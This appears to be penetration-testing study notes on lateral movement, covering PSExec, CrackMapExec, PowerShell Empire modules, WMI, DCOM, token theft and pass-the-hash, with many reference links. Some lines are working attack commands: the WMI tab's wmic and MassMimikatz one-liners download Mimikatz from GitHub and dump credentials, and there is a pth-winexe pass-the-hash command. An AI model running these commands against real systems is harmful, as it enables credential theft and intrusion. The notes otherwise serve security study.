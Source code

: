 # Lateral Movement

## Concepts Techniques and Tools

Lateral movement is where an attacker moves within a network to gain access to additional systems. This type of attack is commonly referred to as “pivoting” because the attacker “pivots” from one system to another. The purpose of lateral movement is to gain access to additional systems and data, or to use the compromised systems as a way to launch further attacks.

The two primary methods of lateral movement are credential-based and non-credential-based. In credential-based lateral movement, the attacker uses valid credentials to move from one system to another. This type of attack is often used to gain access to additional systems that the attacker would not have been able to access otherwise.

Non-credential-based lateral movement does not require the attacker to use valid credentials. Instead, the attacker uses methods such as exploiting vulnerabilities, using exploits, or scanning for open ports to gain access to the target system.

* [https://www.ired.team/offensive-security/lateral-movement](https://www.ired.team/offensive-security/lateral-movement)
* [https://xapax.github.io/security/#attacking\_active\_directory\_domain/remote\_access/remote\_access/](https://xapax.github.io/security/#attacking\_active\_directory\_domain/remote\_access/remote\_access/)
* [PSExec Pass the Hash - Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/)&#x20;
* [Lateral Movement via DCOM: Round 2 | enigma0x3](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)
* [https://medium.com/@kuwaitison/pivoting-and-tunneling-for-oscp-and-beyond-cheat-sheet-3435d1d6022](https://medium.com/@kuwaitison/pivoting-and-tunneling-for-oscp-and-beyond-cheat-sheet-3435d1d6022)
* [http://pwnwiki.io/#!pivoting/linux/index.md](http://pwnwiki.io/#!pivoting/linux/index.md)
* [https://xapax.github.io/security/#random\_tips\_and\_tricks/pivoting/](https://xapax.github.io/security/#random\_tips\_and\_tricks/pivoting/)
* [https://xapax.github.io/security/#random\_tips\_and\_tricks/port\_forwarding\_and\_tunneling/](https://xapax.github.io/security/#random\_tips\_and\_tricks/port\_forwarding\_and\_tunneling/)
* [https://www.cynet.com/attack-techniques-hands-on/how-hackers-use-icmp-tunneling-to-own-your-network/](https://www.cynet.com/attack-techniques-hands-on/how-hackers-use-icmp-tunneling-to-own-your-network/)
* Port Forwarding
* [Abachy's Port Forwarding Guide](https://www.abatchy.com/2017/01/port-forwarding-practical-hands-on-guide)&#x20;
* [https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html](https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html)
* [https://www.offensive-security.com/metasploit-unleashed/proxytunnels/](https://www.offensive-security.com/metasploit-unleashed/proxytunnels/)
* [https://chamibuddhika.wordpress.com/2012/03/21/ssh-tunnelling-explained/](https://chamibuddhika.wordpress.com/2012/03/21/ssh-tunnelling-explained/)
* [https://fumenoid.github.io/posts/port-forwarding](https://fumenoid.github.io/posts/port-forwarding)
* [https://pentest.blog/explore-hidden-networks-with-double-pivoting/](https://pentest.blog/explore-hidden-networks-with-double-pivoting/)
* [https://www.offensive-security.com/metasploit-unleashed/portfwd/](https://www.offensive-security.com/metasploit-unleashed/portfwd/)
* [http://woshub.com/port-forwarding-in-windows/](http://woshub.com/port-forwarding-in-windows/)
* [NetworkPivotingTechniques](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Network%20Pivoting%20Techniques.md)
* _Attacking Network Protocols: Network Proxies - pg.20_

{% tabs %}
{% tab title="PSExec" %}
* Allows you to execute programs and code remotely using credentials
* Combine with Veil to create an obfuscated payload that can bypass AV
* _RTFM: PSExec Commands - pg. 18_
* Metasploit
  * \> use exploit/windows/smb/psexec\_psh
  * Use powershell encoded commands to mimic, ld psexec
  * It will spawn a meterpreter shell but will run in memory and not touch the disk. No need to create custom payload
{% endtab %}

{% tab title="CrackmapExec" %}
* CrackMapExec
  * Tool that sweep scans a local network with a set of harvested credentials to see what other services you can log into.
  * Built into Powershell Empire
  * Use permissions of an AD user to gain control of other systems
  * Empire module: situational\_awareness/network/powerview/find\_localadmin\_access \*\*\*Loud\*\*\*
{% endtab %}

{% tab title="PSEmpire" %}
* Powershell Empire tools
  * inveigh\_relay - SMB relay function
  * invoke\_executemsbuild - executes a powershell command on local/remote host using MSBuild.exe and an inline task.
  * invoke\_psremoting - executes a stager on remote hostss using PSRemoting. Victim must have PSRemoting enabled.
  * invoke\_sqloscmd - executes a command or stager on remote hosts using xp\_cmdshell
  * invoke\_wmi - execute a stager on remote hosts via WMI
  * jenkins\_script\_console - Deploys an empire agent against a Jenkins server with unauthed access to script console.
  * invoke\_dcom - invoke commands on remote hosts using MMC20.Application COM object over DCOM.
  * invoke\_psexec 0 executes a stager on remote host using PsExec type functionality. Oldy but a goodie
  * invoke\_smbexec - using samba tools
  * invoke\_sshcommand - executes a command on a remote host via SSH
  * Invoke\_wmi\_debugger - uses WMI to set the debugger for a target binary on a remote hosts to be cmd.exe or a stager
  * new\_gpo\_immediate\_task - Builds and immediate schtask to push through a specified GPO. mist have access to modify GPOs
    * [http://harmj0y.net/blog/empire/empire-1-5](http://harmj0y.net/blog/empire/empire-1-5)
  * _PTFM: Empire Admin Tools - pg. 52_
{% endtab %}

{% tab title="Other Tools" %}
* [keimpx](https://github.com/nccgroup/keimpx) - quickly check for valid credentials across a network over SMB.
* [Sonar.js](https://github.com/mandatoryprogrammer/sonar.js) - A framework for identifying and launching exploits against internal network hosts. Works via WebRTC IP enumeration combined with WebSockets and external resource fingerprinting.&#x20;
* [SprayWMI](https://github.com/trustedsec/spraywmi) - SprayWMI is a method for mass spraying [Unicorn](https://github.com/trustedsec/unicorn) PowerShell injection to CIDR notations.
* [LOLBAS](https://lolbas-project.github.io/) - Living Off The Land Binaries and Scripts (and also Libraries)
* [MalSCCM](https://github.com/nettitude/MalSCCM) - This tool allows you to abuse local or remote SCCM servers to deploy malicious applications to hosts they manage.
* [SCShell](https://github.com/Mr-Un1k0d3r/SCShell) - Fileless lateral movement tool that relies on ChangeServiceConfigA to run commandG
{% endtab %}
{% endtabs %}

### Techniques

* [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)

{% tabs %}
{% tab title="WMI" %}
* Once you have harvested credentials and elevated the session on your current target, you can send remote commands to other devices using WMI
* Remote Mimikatz attack
  * \> wmic /USER:"hacker\testuser1" /PASSWORD:"asdfasdfasdf!" /NODE:\[target ip] process call create “powershell.exe -exec bypass IEX (Net-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/cheetz/Powersploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds | Out-File C:\\\Users\\\public\\\a.txt”
  * dir\\\\\[target hostname]\c$\Users\Public\\
  * type\\\\\[target hostname]\c$\Users\Public\a.txt
  * del\\\\\[target hostname]\c$\Userse\Public\a.txt
* MassMimikatz - a better way to do the remote mimikatz attack
  * \> powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object Net.Webclient).downloadString('https://raw.githubusercontent.com/cheetz/PowerTools/master/PewPewPew/Invoke-MassMimikatz.ps1'); “'hostname1','hostname2' | Invoke-MassMimikatz -Verbose -FireWillRule”
{% endtab %}

{% tab title="DCOM" %}
* DCOM is a windows feature for communicating between software components on different remote machines
* These can be used when traditional options like WMI, Powershell remoting, and PSExec are being monitored.
* List all a machine's DCOM applications with powershell
  * Get-CimInstance Win32\_DCOMApplication
* There are many objects that allow remote code execution: ShellBrowserWindows, ShellWindows
* [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)
* _PTFM: DCOM- pg. 52_
{% endtab %}

{% tab title="Stealing Tokens" %}
* Stealing tokens
  * Metasploit Incognito - steal user tokens
  * Powershell Empire: steal\_tokens
  * Inject a new agent into a running process owned by a different user
    * PSInject - inject agent into processes using ReflectivePick to load up the .NET clanguage runtime into a process and execute a Powershell command without a new powershell.exe process
    * This will start a new agent running as a process owned by the new target.
    * [http://bit.ly/2HDxj6x](http://bit.ly/2HDxj6x)
{% endtab %}

{% tab title="MSSQL DB Links" %}
* [SQL Server – Link… Link… Link… and Shell: How to Hack Database Links in SQL Server!](https://blog.netspi.com/how-to-hack-database-links-in-sql-server/)
* [SQL Server Link Crawling with PowerUpSQL](https://blog.netspi.com/sql-server-link-crawling-powerupsql/)
{% endtab %}

{% tab title="SCCM" %}
* [Targeted Workstation Compromise With Sccm](https://enigma0x3.net/2015/10/27/targeted-workstation-compromise-with-sccm/)
* [PowerSCCM - PowerShell module to interact with SCCM deployments](https://github.com/PowerShellMafia/PowerSCCM)


{% endtab %}

{% tab title="WSUS" %}
* [Remote Weaponization of WSUS MITM](https://www.sixdub.net/?p=623)
* [WSUSpendu](https://www.blackhat.com/docs/us-17/wednesday/us-17-Coltel-WSUSpendu-Use-WSUS-To-Hang-Its-Clients-wp.pdf)
* [Leveraging WSUS – Part One](https://ijustwannared.team/2018/10/15/leveraging-wsus-part-one/)
{% endtab %}
{% endtabs %}

<details>

<summary>Pass-the-hash</summary>

&#x20;[https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/)

* Basic Local admin attack - the old way
  * Currently most local admin accounts are disabled by default and utilize LAPS to protect passwords
  * Requirements: local admin enabled, and RID is 500
  * If available we can run a a few modules to pull out those hashes.
  * Empire module: powershell/credentials/powerdump
  * Metasploit: [http://bit.ly/2qzsyDI](http://bit.ly/2qzsyDI)
* Breaking LAPS
  * metasploit - enum\_laps.rb
  * [https://room362.com/post/2017/dump-laps-passwords-with-ldapsearch/](https://room362.com/post/2017/dump-laps-passwords-with-ldapsearch/)
* pth-winexe
  * Pass the hash toolkit - modified winexe, performs auth using SMB
  * \# pth-winexe -U \[NTLM hash] \[SMB share] \[command to execute
  * \# pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
* [Performing Pass-the-hash Attacks With Mimikatz](https://blog.stealthbits.com/passing-the-hash-with-mimikatz)
* [How to Pass-the-Hash with Mimikatz](https://blog.cobaltstrike.com/2015/05/21/how-to-pass-the-hash-with-mimikatz/)
* [Pass-the-Hash Is Dead: Long Live LocalAccountTokenFilterPolicy](https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/)
* _PTFM: Metasploit/Emipre Pass-the-hash - pg. 52_

</details>

<details>

<summary>Browser Pivot</summary>

* Used to access an application that the user of the compromised workstation accesses regularly.
* This method can bypass authentication to that application
* Tasks: Inject code into IE process accessing the medical database, create a web proxy DLL based on the WnInet API, and passw eb traffic through our ssh tunnel and the new proxy
* Stage 1: DLL Injection - Injecting code into a currently running process
  * Attach to the target process
  * Allocate memory within the target process
  * Copy the DLL into the target process memory and calculate an appropriate memory addresses
  * Instruct target process to execute your DLLL
* Stage 2: Create a Proxy DLL based on the WinInet API
  * Any program can use the WinInet API, and it can handle tasks such as cookie and session managment, auth, etc...
  * WinInet API performs Auth on a per process basis
  * Inject our own proxy server into targets IE process and route our web traffic through it and inherit application session states. Including those with 2FA!
* Stage 3: Using the injected proxy server
  * Now we have an HTTP proxy running on our target machine and restructed it to the local ethernet int.
  * Next we must hardcode an additional tunnel into our payload.&#x20;

</details>

* Admin Shares
  * _PTFM: Admin Shares - pg. 51_
* SSH Hijack
  * _PTFM: SSH Hijack- pg. 110_
